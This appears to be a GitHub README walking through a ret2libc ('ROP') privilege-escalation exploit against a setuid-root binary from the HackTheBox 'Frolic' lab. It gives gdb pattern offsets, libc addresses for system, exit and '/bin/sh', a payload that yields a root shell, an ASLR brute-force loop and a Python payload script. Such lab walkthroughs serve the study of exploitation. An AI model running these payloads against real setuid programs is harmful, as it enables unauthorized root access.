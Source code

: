 # ROP
### by @shell5

#### Steps
1. [ ] Find a binary with [setuid](https://en.wikipedia.org/wiki/Setuid "wikipedia")

```bash

shell5@madrid:/tmp$ find / -perm -4000 2>/dev/null
/root/gitlab/sec/rop/exemplos/frolic/rop

shell5@madrid:/root/gitlab/sec/rop/exemplos/frolic$ ls -l
total 8
-rwsr-xr-x 1 root root 7480 Sep 25 00:59 rop
```

2. [ ] Check if system is vulnerable - check if [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is disabled 
	- `cat /proc/sys/kernel/randomize_va_space`

```bash
shell5@madrid:~/rop/exemplos/frolic$ cat /proc/sys/kernel/randomize_va_space
0
```

3. [ ] Check binary security
	- `gdb ./rop`
	- `checksec`
	- `/rop/scripts/pwnAPP.py ./rop`


```bash
shell5@madrid:~/rop/exemplos/frolic$ gdb ./rop 

gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

ou 

```bash
shell5@madrid:~/rop/exemplos/frolic$ /rop/scripts/pwnAPP.py ./rop 
[*] '/rop/exemplos/01_frolic/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
ContextType(arch = 'i386', binary = ELF('/rop/exemplos/01_frolic/rop'), bits = 32, endian = 'little', os = 'linux')
```


4. [ ] Check for overflow
	- `for i in $(seq 10 10 200); do ./rop $(python -c "print('A' * $i)") && echo ; done`
	- `./rop $(python3 -c 'print("A" * 100, end="")')`


```bash
shell5@madrid:~/rop/exemplos/frolic$ for i in $(seq 10 10 200); do ./rop $(python -c "print('A' * $i)") && echo ; done
[+] Message sent: AAAAAAAAAA
[+] Message sent: AAAAAAAAAAAAAAAAAAAA
[+] Message sent: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] Message sent: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
Segmentation fault
```

5. [ ] Find buffer size
	- `pattern create TAM` TAM is the size of the ppatern
	- `run PATTERN` with created pattern
	- `pattern offset EIPVALUE` value in EIP register

```bash
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x79 ('y')
EBX: 0xffffd150 --> 0x2
ECX: 0x0
EDX: 0xf7f99890 --> 0x0
ESI: 0xf7f98000 --> 0x1d5d8c
EDI: 0x0
EBP: 0x31414162 ('bAA1')
ESP: 0xffffd120 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41474141 ('AAGA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41474141
[------------------------------------stack-------------------------------------]

gdb-peda$ pattern offset AAGA
AAGA found at offset: 52
```

6. [ ] Find address of libc version used in binary
	- `ldd ./rop`

```bash
shell5@madrid:~/rop/exemplos/frolic$ ldd rop
        linux-gate.so.1 (0xf7fd3000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7dcd000)    <-- this
        /lib/ld-linux.so.2 (0xf7fd4000)
```

7. [ ] Find address of "system" in libc
	- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " system@"`

```bash
shell5@madrid:~/rop/exemplos/frolic$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " system@"
  1528: 000426e0    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0

system -> 0x000426e0
system -> libc + system 
gdb-peda$ p 0xf7dcd000 + 0x000426e0

system -> 0x f7 e0 f6 e0 --> little endian --> \xe0\xf6\xe0\xf7
```

8. [ ] Find address of "exit" in libc
	- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " exit@"`

```bash
shell5@madrid:~/rop/exemplos/frolic$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep " exit@"
   150: 000357a0    33 FUNC    GLOBAL DEFAULT   14 exit@@GLIBC_2.0

exit -> 0x000357a0
exit -> libc + system 
gdb-peda$ p 0xf7dcd000 + 0x000357a0

exit -> 0x f7 e0 27 a0 --> little endian --> \xa0\x27\xe0\xf7
```

9. [ ] Find address of "/bin/sh" in libc
	- `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`

```bash
shell5@madrid:~/rop/exemplos/frolic$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 17ff68 /bin/sh

sh -> 0x17ff68
sh -> libc + system 
gdb-peda$ p 0xf7dcd000 + 0x17ff68

sh -> 0x f7 f4 cf 68 --> little endian --> \x68\xcf\xf4\xf7
```

10. [ ] execute the binary with the payload
	- `./rop $(python -c 'print("a"*52 + system + exit + sh )')`

```bash
shell5@madrid:~/rop/exemplos/frolic$ ./rop $(python -c 'print("\x90"*52 + "\xe0\xf6\xe0\xf7" + "\xa0\x27\xe0\xf7" + "\x68\xcf\xf4\xf7" )')
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

11. [ ] ASLR enabled
	- 
```bash
while true; do ./ovrflw $(python -c 'print "\x90"*112 +  "\xe0\xf6\xe0\xf7" + "\xa0\x27\xe0\xf7" + "\x68\xcf\xf4\xf7"'); done
```

12. [] Python script

```python
#!/usr/bin/python

import struct

buf = "\x90" * 52
system = struct.pack("I" ,0xf7e0f6e0)
exit = struct.pack("I" ,0xf7e027a0)
shell = struct.pack("I" ,0xf7f4cf68)
print buf + system + exit + shell
```

```bash
shell5@madrid:~/rop/exemplos/frolic$ ./rop $(python ./template_local.py)
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

Bookmarks

ippsec bitterman

https://ketansingh.net/Introduction-to-Return-Oriented-Programming-ROP/

https://0xdf.gitlab.io/2019/03/23/htb-frolic.html#privesc-www-data--root

https://0xrick.github.io/hack-the-box/frolic/

https://0xdf.gitlab.io/2019/03/26/htb-october.html



https://0xrick.github.io/categories/#binary-exploitation

https://niiconsulting.com/checkmate/2019/09/exploiting-buffer-overflow-using-return-to-libc/

http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html
